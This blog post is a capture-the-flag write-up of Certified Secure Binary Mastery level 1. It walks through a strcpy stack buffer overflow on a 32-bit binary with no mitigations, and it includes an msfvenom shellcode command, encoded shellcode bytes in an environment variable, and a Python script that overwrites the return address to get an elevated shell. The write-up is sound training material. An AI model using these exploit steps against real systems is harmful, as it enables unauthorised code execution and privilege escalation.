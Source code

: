 ![Logo](/assets/images/belts-white.png)

At one point I _stumbled_  over the **Certified Secure Binary Mastery** challenges. 
They are not terribly difficult and _each one of them has an interesting element_. This makes them _accessible and fun_. 

In this blog posts and the following four I'll go through the [Ensign](https://www.certifiedsecure.com/certification/view/37) levels. As described, these ones deal with _retro exploitation techniques_ like buffer overflows, format strings, off-by-one errors and so on. No recent security mitigations are involved in the Ensign levels (E.g.: ASLR or non-executable stack). Don't worry too much about this yet, because their complexity increases to keep the hackers _in flow_. 

![Ensign](/assets/images/bm1.png)

**I hope it goes without saying that these blog posts shouldn't be used as a way to cheat yourself in any case, but as a learning oportunity. With this in mind, let's begin with _Level 1_**.

## 0 - Discovery

Let's connect to the server and check the binary we're dealing with:
```
$ ssh level1@hacking.certifiedsecure.com -p 8266
level1@hacking.certifiedsecure.com's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      
```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally :
```bash
$ checksec.sh --file level1
- Stack executable and no stack cookie
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   level1
```

Good signs: as expected NX is disabled and there is no stack canary. Let's verify that the stack is executable:
```
$ readelf -lW level1 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

The R**W**E flag suggests Read-**Write**-Execute flags are all enabled. What about the state of ASLR on the system? Good news again: there is [no ASLR](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization), everything is static:
```bash
$ cat  /proc/sys/kernel/randomize_va_space
0
```

## 1 - Vulnerability

What we have here is a classic stack-based buffer overflow, caused by overflowing the 16-byte buffer _buf_ using the insecure function _strcpy_, which doesn't do any bounds checking:

```c
#include <stdio.h>                                                                                                 
#include <string.h>

void helloworld(char* name) {
    char buf[16];

    strcpy(buf, name);

    printf("Hello %s!\n", buf);
}

int main(int argc, char** argv) {
    if (argc != 2) {
        printf("Usage: %s <name>\n", argv[0]);
       
        return -1;
    }

    helloworld(argv[1]);

    return 0;
}
```

## 2 - Exploitation

By overwriting the return address from the function _helloworld_, we can redirect the execution of the program. We'll chose as destination _**a location on the stack containing our shellcode**_. Steps:
* Find the position that overwrites the return address
* Generate _NULL-free_ shellcode for the correct architecture. Although the machine is 64-bit, the binaries are 32!
* Place the shellcode in an environment variable
* Find the static address of the environment variable (_No ASLR, remember?_) and used it conjunction with step 1

### Control the execution flow
Although  we can generally use tools from Metasploit Framework like _pattern_create_ and _pattern_offset_, in this case it is much simpler. We can just examine stack of the _helloworld_ function in IDA:

![helloworld stack](/assets/images/bm1-2.png)

So at dest+24 we have the saved EBP and at **dest+28** the saved return address. 

### Generate shellcode
We'll do this very easy from Kali. Let's usec a payload to execute **/bin/dash** to be sure it will not drop the SUID privileges:
```bash
# msfvenom  -p linux/x86/exec CMD=/bin/dash -e x86/shikata_ga_nai -b '\x00' -f python
```

### Shellcode placement and location
Place the shellcode generated from MSF into a python script (_put-sc.py_ below) and pythe the output to an environment variable:

```python
buf =  ""                                                                                                          
buf += "\xda\xd7\xba\xb4\x13\x10\x12\xd9\x74\x24\xf4\x5d\x31\xc9\xb1"
buf += "\x0c\x31\x55\x18\x83\xed\xfc\x03\x55\xa0\xf1\xe5\x78\xc3\xad"
buf += "\x9c\x2f\xb5\x25\xb2\xac\xb0\x51\xa4\x1d\xb1\xf5\x35\x0a\x1a"
buf += "\x64\x5f\xa4\xed\x8b\xcd\xd0\xe7\x4b\xf2\x20\xd8\x29\x9b\x4e"
buf += "\x09\xca\x3a\xfc\x3d\x12\xea\x51\x34\xf3\xd9\xd6"

print "\x90"*30 + buf
```

```bash
$ export EGG=$(python /tmp/put-sc.py)
```

We still need to find out exactly where on the stack of our level1 binary will the environment variables reside. The easiest way to do this is to add an instruction to print the address of the environment variable and recompile level1.c _on the target_:

```c
 printf("EGG address: 0x%lx\n", getenv("EGG"));
 ```
 
 To compile files on the target is a bit cumbersome because we don't have write access in the current folder, used by gcc for temporary files. So we need to use another directory as temporary folder for compilation:
 
 ```bash
$ mkdir /tmp/me
$ export TMPDIR=/tmp/me                                                                                            
$ gcc -m32 -fstack-protector -z execstack  /tmp/level1-mod.c -o /tmp/level1-mod
 ```
 
 Don't forget to use the same protection mechanisms (none!) as present in the original binary: no stakc cookies (_-fnostackprotector_) and executable stack (_-z execstack_).
 
So the static address where the environment variable EGG will be located when running level1 is **0xffffd8c6**:

```bash
$ /tmp/level1-mod aaaaa
EGG address: 0xffffd8c6
Hello aaaaa!
```
## 3 - Profit

The following script generates the payload:

```python
#!/usr/bin/python                                                                                                  

import struct

# Address of environment variable containing shellcode
# Obtain this from findeggaddr.c
ret =  struct.pack("<L", 0xffffd8c6)

print "A" * 24 + ret*2
```

And we're in:
```bash
$ /levels/level1 $(python /tmp/expl.py)
Hello AAAAAAAAAAAAAAAAAAAAAAAA������!
$ id
uid=1002(level1) gid=1002(level1) euid=1003(level2) groups=1003(level2),1002(level1)
$ /home/level2/victory
   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      

Subject: Victory!

Congrats, you have solved level1. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level1 @ binary mastery ensign)
   * the exploit

You can now start with level2. If you want, you can log in
as level2 with password [REDACTED]
```
